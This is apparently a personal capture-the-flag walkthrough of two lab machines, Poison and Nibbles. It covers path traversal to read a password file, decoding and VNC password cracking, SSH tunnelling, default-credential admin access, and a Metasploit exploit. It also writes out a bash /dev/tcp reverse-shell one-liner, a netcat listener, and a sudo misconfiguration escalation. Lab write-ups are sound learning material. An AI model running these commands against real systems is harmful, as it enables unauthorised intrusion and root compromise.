

# Poison 

## User

So, started with the usual nmap command: 


We have a lot of things to attack. Let's start with the http. 


First page ask you to choose one script.. Let's took **listfiles.php**...


The answer back is an Array object with each file that is inside that folder.. If we pay attention there is one called **pwdbackup.txt**. I'd like to read it.. so.. what happens if we change the file param of the url? 


Great... Now.. encoded at least 13 times, pretty easy to noticed that the encode is base64, so let's decoded. I developed a very simple script:

```python
import base64 

password = "Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVUbGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBSbVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVWM040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRsWmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYyeG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01GWkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYwMXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVaT1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5kWFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZkWGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZTVm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZzWkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBWVmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpOUkd4RVdub3dPVU5uUFQwSwo="

for _ in xrange(13):
	password = base64.decodestring(password)

print password
```

Once executed.. the answer is: **Charix!2#4%6&8(0**.
Ok maybe this could be a password for something.. maybe ssh, maybe vnc? Anyways, we are missing the user. How could we get the user?. 
What if we use again the path traversal vuln?:


Perfect. There is a user called **charix**, due to the password has also that string, I guess is the correct user for our password.
Let's try an ssh connection: 


### Root 

Ok, once I started using **LinEnum.sh**, looking for filesystem files, doing enumeration basically. The first thing, is the **secret.zip** file which is placed in the home of charix. 

I copied to my local machine and tried to bruteforce it with JTR, but no luck at all. Then I tried to use the same password as the user of charix and worked!. Anyways, the file is very strange, is just ascii text maybe encoded or encrypted or corrupted. At this moment I thought it was just a troll. 

Then, I continued enumerating and discovered some processes running as root listeining only in localhost: 


In particular, **Xvnc** and **sendmail** sound weird for me to be running as root. Due to I didn't have any idea of what sendmail was, I started looking for vnc. 

So I looked for some commands in the machine (just pressing vnc<TAB>) and found **vncpasswd**. Once I ran it, a message telling me which password file was using appeared. So I went to look for that file, and get the following:


So, after "catting" I realise that was more or less the same format as the file that I already decompressed from the ZIP. 
So then I went to the internet to try to see if this format was already broken or if there was some tool to let you read the password in plain text from this file. And... yes! there was [one](https://github.com/jeroennijhof/vncpwd).

After using it, get the password **VNCP@$$!**.

This probably is the password of root (or toor, there are two users with id 0). I tried them first with ssh, but it didn't work. Clearly, was the VNC password, but I had to test it anyways.

At this moment I totally forgot that my nmap had discovered a VNC open port, so I spend more than an hour trying to figure it out how how to initiate a connection from the machine itself to this server that was only listening in the localhost. Finally, I did something different. I used ssh, to make a port forwarding from my local machine to a port of the local port 5901 of the remote machine, by ussing the following command:

```bash
ssh -L 5901:127.0.0.1:5901 -N -f -l Charix 10.10.10.84
```

Once I made that connection, using remmina, the root user and the password found, I was able to get the flag: 



YEAH! I had to copy it char by char xD.

## Nibbles (User & Rooted)

### User

Reading comments. Found

```html
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Ran dirbuster against http://10.10.10.75/nibbleblog/ 
Found **admin.php**.

Tried with some default credentials:

* admin:admin
* nibbles:nibbles
* admin:nibbles **(GOT IT!)**

Tried to look for a LFI in some upload of images (new page, new post) without luck..

Search in google for nibbleblog: **It is a well-known CMS!**.. Looking for exploit: YEAH! INside **MSF**.

Run the exploit:


Once with the meterpreter.

```bash
cat /etc/passsd
```
Showed me, that there was only one user interesting called **nibbler**.

```bash
whoami
```
returned also **nibbler**.

Went to /home/nibbler and...:


## Root

So, first step was to create a reverse shell.. In order to do that I did:

** On my local machine **

```bash
sudo ufw allow 3333
nc -lnvp 3333
```

** On the remote machine**

```bash
bash -i
bash -i >& /dev/tcp/IP/3333 0>&1
```


Once I have the reverse shell in my local pc, I "upgraded" to a full tty (I learned this trick by looking this [video](https://www.youtube.com/watch?v=uc3pMrIbP88)).

So next step was use the **LinEnum.sh**. I found it already in the vm, but othrwise uploading in it to the vm wouldn't be a problem at all (wget to some http server or some other way).

Once I ran it, one of the outputs was:

```bash
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

[+] Possible sudo pwnage!
-rwxrwxrwx 1 nibbler nibbler 21 May  1 19:01 /home/nibbler/personal/stuff/monitor.sh
```

This basicall means that there is a misconfiguration in the **/etc/sudoers** file which allows the user **nibbler** to execute any **monitor.sh** as root, without prompting any password. So my next step was simply:

```bash
echo "cat /root/root.txt" > /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```
**It's extremely important to run the the sudo comand not with the relative path, but with the absolute one. Because that's how sudo works**

The output was the flag =):


